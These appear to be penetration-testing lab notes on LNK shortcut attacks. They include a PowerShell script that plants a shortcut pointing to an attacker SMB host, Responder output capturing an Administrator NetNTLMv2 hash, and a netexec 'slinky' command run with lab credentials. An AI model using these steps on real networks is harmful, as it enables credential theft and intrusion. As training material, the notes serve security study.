



# LNK File Attacks

A lnk file attack is a watering hole attack in which we create a file with a
malicious link and place it in a file share. If we have `responder` open and the
file is triggered, we can capture the hash of the account that has accessed the
file. This is an attack that we can employ if other ways of getting access to an
account do not work. The lnk file is trying to resolve a png image, which is
pointing to the IP of our attack machine, and in doing so, it will send a hash
to our machine.





The following is entered in a `Powershell` command prompt with elevated
privileges. That can happen on any machine, it does not have to be an attack
victim. (TCM has done it on `THEPUNISHER`.) The IP address in the `TargetPath`
has to be the IP of our attack machine (`10.0.2.15`). The last command will
save the link as `test.lnk` on our `C:` drive. After the file has been created,
we should rename it and add an `!`, `#`, `$`, or an `@` at the beginning of the
filename to make sure that whenever a `Windows Explorer` accesses the folder in
which the link is stored, the link is actually loaded and the file is sent to
`responder`, which is running on the attack machine.

```
$objShell = New-Object -ComObject WScript.shell
$lnk = $objShell.CreateShortcut("C:\@test.png")
$lnk.TargetPath = "\\10.0.2.5\@test.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Test"
$lnk.HotKey = "Ctrl+Alt+T"
$lnk.Save()
```



Initially, I had a problem to start `responder` because it did not find the
`QUIC` key in the config file. I have added a line to the config file manually
after looking into the config file in the github repo, then it worked. I also
had to set `SMB` to `On`. After starting `responder`, I went into the network
share where the `@test.lnk` file was stored and immediately got the `NTLM` hash
of the `Administrator` user.


```
┌──(kali㉿kali)-[~]
└─$ sudo vim /etc/responder/Responder.conf
                                                                                                                                                           
┌──(kali㉿kali)-[~]
└─$ sudo responder -I eth0 -dPv           
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.6.0

  To support this project:
  Github -> https://github.com/sponsors/lgandx
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [ON]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [ON]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    MQTT server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]
    SNMP server                [OFF]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [eth0]
    Responder IP               [10.0.2.5]
    Responder IPv6             [fe80::894a:2922:b342:85c0]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']
    Don't Respond To MDNS TLD  ['_DOSVC']
    TTL for poisoned response  [default]

[+] Current Session Variables:
    Responder Machine Name     [WIN-B5DBX26MV2Q]
    Responder Domain Name      [TRSA.LOCAL]
    Responder DCE-RPC Port     [49696]

[+] Listening for events...                                                                                                                                

[SMB] NTLMv2-SSP Client   : 10.0.2.6
[SMB] NTLMv2-SSP Username : MARVEL\Administrator
[SMB] NTLMv2-SSP Hash     : Administrator::MARVEL:a8ce78852f94f5c0:39D195ED13D95A61BBB09E6155E42C25:010100000000000000997D295D11DC016D8EC399EF42F1800000000002000800540052005300410001001E00570049004E002D0042003500440042005800320036004D0056003200510004003400570049004E002D0042003500440042005800320036004D005600320051002E0054005200530041002E004C004F00430041004C000300140054005200530041002E004C004F00430041004C000500140054005200530041002E004C004F00430041004C000700080000997D295D11DC01060004000200000008003000300000000000000000000000003000004389FEDF52EEA58D0ED471FC02D059BD7592E11C5A9BC2E279E55C33C6EBE6AA0A0010000000000000000000000000000000000009001A0063006900660073002F00310030002E0030002E0032002E0035000000000000000000
```

One can identify the hash type with a tool called `hashid` or one of several
online tools.

```
┌──(kali㉿kali)-[~]
└─$ hashid Administrator::MARVEL:bb0c37dba797c0b8:9AE0180CAC67E0416A541A113913ED17:010100000000000000997D295D11DC019A1A80E8806CAF140000000002000800540052005300410001001E00570049004E002D0042003500440042005800320036004D0056003200510004003400570049004E002D0042003500440042005800320036004D005600320051002E0054005200530041002E004C004F00430041004C000300140054005200530041002E004C004F00430041004C000500140054005200530041002E004C004F00430041004C000700080000997D295D11DC01060004000200000008003000300000000000000000000000003000004389FEDF52EEA58D0ED471FC02D059BD7592E11C5A9BC2E279E55C33C6EBE6AA0A0010000000000000000000000000000000000009001A0063006900660073002F00310030002E0030002E0032002E0035000000000000000000
Analyzing 'Administrator::MARVEL:bb0c37dba797c0b8:9AE0180CAC67E0416A541A113913ED17:010100000000000000997D295D11DC019A1A80E8806CAF140000000002000800540052005300410001001E00570049004E002D0042003500440042005800320036004D0056003200510004003400570049004E002D0042003500440042005800320036004D005600320051002E0054005200530041002E004C004F00430041004C000300140054005200530041002E004C004F00430041004C000500140054005200530041002E004C004F00430041004C000700080000997D295D11DC01060004000200000008003000300000000000000000000000003000004389FEDF52EEA58D0ED471FC02D059BD7592E11C5A9BC2E279E55C33C6EBE6AA0A0010000000000000000000000000000000000009001A0063006900660073002F00310030002E0030002E0032002E0035000000000000000000'
[+] NetNTLMv2
```

**LNK file attack using `netexec`**

The same type of attack is possible using a tool called `netexec`, which is a
successor of `crackmapexec`. The attack does not work in this example because
the file share in our lab environment is not configured accordingly. The attack
uses a module called `slinky` and the IP addresses of the victim
(`THEPUNISHER, 10.0.2.6`) and the attacker (`SERVER=10.0.2.5`), plus the login
credentials and the specification of the Windows domain.

```
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.0.2.6 -d MARVEL.local -u fcastle -p Password1 -M slinky -o NAME=test SERVER=10.0.2.5
/home/kali/.local/share/pipx/venvs/netexec/lib/python3.13/site-packages/masky/lib/smb.py:6: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  from pkg_resources import resource_filename
SMB         10.0.2.6        445    THEPUNISHER      [*] Windows 10 / Server 2019 Build 19041 x64 (name:THEPUNISHER) (domain:MARVEL.local) (signing:False) (SMBv1:False)
SMB         10.0.2.6        445    THEPUNISHER      [+] MARVEL.local\fcastle:Password1 (Pwn3d!)
SMB         10.0.2.6        445    THEPUNISHER      [*] Enumerated shares
SMB         10.0.2.6        445    THEPUNISHER      Share           Permissions     Remark
SMB         10.0.2.6        445    THEPUNISHER      -----           -----------     ------
SMB         10.0.2.6        445    THEPUNISHER      ADMIN$          READ,WRITE      Remote Admin
SMB         10.0.2.6        445    THEPUNISHER      C$              READ,WRITE      Default share
SMB         10.0.2.6        445    THEPUNISHER      IPC$            READ            Remote IPC

```


### Further reading

* [TCM SECURITY — LNK File Attack Writeup](https://medium.com/@tayyabanoor1201/tcm-security-lnk-file-attack-writeup-9af506a6d577)
* [LM, NTLM, Net-NTLMv2, oh my!](https://medium.com/@petergombos/lm-ntlm-net-ntlmv2-oh-my-a9b235c58ed4)
* [Windows Shortcut (LNK) Malware Strategies](https://unit42.paloaltonetworks.com/lnk-malware/)


<!--
span style="color:green;font-weight:700;font-size:20px">
markdown color font styles
</span
-->
